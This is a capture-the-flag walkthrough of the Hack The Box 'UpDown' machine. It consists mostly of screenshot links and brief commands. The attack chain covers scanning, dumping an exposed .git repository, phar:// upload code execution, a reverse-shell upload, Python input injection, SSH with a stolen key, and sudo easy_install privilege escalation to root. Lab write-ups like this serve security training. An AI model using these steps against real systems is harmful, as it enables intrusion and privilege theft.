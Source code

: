 ![image](https://github.com/regarmulia/HTB/assets/33616880/ecb47e06-0e23-4c6e-9e06-a6a90809d886)![image](https://github.com/regarmulia/HTB/assets/33616880/c5d494a6-2a5c-4ca8-b66b-ecc83a150b8b)![image](https://github.com/regarmulia/HTB/assets/33616880/f7c68ccc-1de1-47b4-a03f-b6a905c7cd3c)![image](https://github.com/regarmulia/HTB/assets/33616880/1588185c-50db-4ed7-89a9-bd654d5e5096)```
nmap -sS -sC -sV -T5 -Pn 10.10.11.177
nmap -p- -T5 10.10.11.177
nmap -sU -T5 10.10.11.177
```
![image](https://github.com/regarmulia/HTB/assets/33616880/15bb628f-5350-404b-b2d7-eafb2335761d)

![image](https://github.com/regarmulia/HTB/assets/33616880/5fae680f-c693-4297-8d4f-fad45d708e18)

![image](https://github.com/regarmulia/HTB/assets/33616880/9e42e535-c455-4d85-9a9d-a039eb16e54c)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.177/FUZZ -fs 277 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/077ed537-45e8-4ea9-a060-f12c713317de)

```
gobuster dir -u 10.10.11.177 -w /usr/share/dirb/wordlists/common.txt
gobuster dir -u http://10.10.11.177/dev/ -w /usr/share/dirb/wordlists/common.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a61a87b5-2384-4c18-ae4a-8205a3a644e5)

```
http://10.10.11.177/
http://10.10.11.177/dev/
http://10.10.11.177/dev/.git/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4d1ba772-886d-495b-95bd-41ee263f6786)

![image](https://github.com/regarmulia/HTB/assets/33616880/4027a9c2-5c52-457e-866a-f7cfee17108e)

![image](https://github.com/regarmulia/HTB/assets/33616880/535382da-97dd-4bc7-bc70-907ad859d45b)

```
pip install git-dumper
git-dumper http://10.10.11.177/dev/.git /home/itsec/Documents/HTB-UpDown/dev/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4204b7d4-86e5-4e5a-947e-75a493b4fe48)

![image](https://github.com/regarmulia/HTB/assets/33616880/80273182-2492-48e9-b019-065cb1185564)

![image](https://github.com/regarmulia/HTB/assets/33616880/f0a4a58e-1c6b-4703-8daf-0ff81cfbad8c)

```
git log
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7e72fada-0ecf-4f5e-81af-79687122e623)

![image](https://github.com/regarmulia/HTB/assets/33616880/a720577a-bbc2-45fe-a3f7-db57d1c5cbda)

```
Proxy – Match and replace rules
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f976a607-593e-48e1-a9e3-6e52253ea074)

```
http://dev.siteisup.htb/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/97dc16bf-d314-4448-887b-3590a4e5f338)

![image](https://github.com/regarmulia/HTB/assets/33616880/031e235e-781f-46ac-83e3-8b3c2ec7a69f)

![image](https://github.com/regarmulia/HTB/assets/33616880/0838e7c3-ae2c-42ce-a472-bfe74caf82ab)

```
echo "<?php phpinfo(); ?>" > info.php
zip info.zip info.php
mv info.zip info.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/652bec68-34c3-4bcb-b23b-cdd3072aff64)

```
http://dev.siteisup.htb/uploads/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d4792383-cb0f-4616-add7-2c23d4b235ae)

![image](https://github.com/regarmulia/HTB/assets/33616880/da408073-3391-482f-ab16-ebc049727f47)

```
http://dev.siteisup.htb/?page=phar://uploads/81d6840826b9f6ab35021cfbc006b9be/info.txt/info
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f3e5e9c-7c23-49e2-88e4-462971c8f3db)

```
https://github.com/teambi0s/dfunc-bypasser
./dfunc-bypasser.py --url 'http://dev.siteisup.htb/?page=phar://uploads/e744af4911ee9e365e53bebef0ee2496/info.txt/info'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d79e28d9-f6a5-457e-8072-707a93be3a57)

```
nano rev.php
zip rev.zip rev.php
mv rev.zip rev.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fe3d33c7-2356-4a7b-bf40-3ef2f4d2b221)

![image](https://github.com/regarmulia/HTB/assets/33616880/a2144978-4e6c-499a-8fdf-9cf5fd9ecd1f)

![image](https://github.com/regarmulia/HTB/assets/33616880/4c062487-c2f0-4abc-b1cc-87a0f86936db)

```
cd /home/developer/dev
```
![image](https://github.com/regarmulia/HTB/assets/33616880/11e376a2-b3fd-4ad4-ab4d-1d3531773f26)

```
./siteisup
__import__('os').system('/bin/bash')
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20f8a856-a577-4e6a-aa76-e4b3b771b94c)

```
cd .ssh
chmod 600 id_rsa
ssh -i id_rsa developer@10.10.11.177
```
![image](https://github.com/regarmulia/HTB/assets/33616880/35331faa-74b7-4450-b2db-63f77f1f9eab)

![image](https://github.com/regarmulia/HTB/assets/33616880/e668dfc6-5860-4451-9e77-3b599197e3db)

![image](https://github.com/regarmulia/HTB/assets/33616880/f4a34c73-95a0-4f58-bb6e-5700695b4876)

![image](https://github.com/regarmulia/HTB/assets/33616880/229d6715-841c-4ec2-9749-1a94b1b39e59)

```
sudo –l
https://gtfobins.github.io/gtfobins/easy_install/
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5a777a1d-ea59-4905-8cb4-e0b6c4947f8e)

![image](https://github.com/regarmulia/HTB/assets/33616880/5c5df04a-4057-40b9-b532-5d2eae8accad)
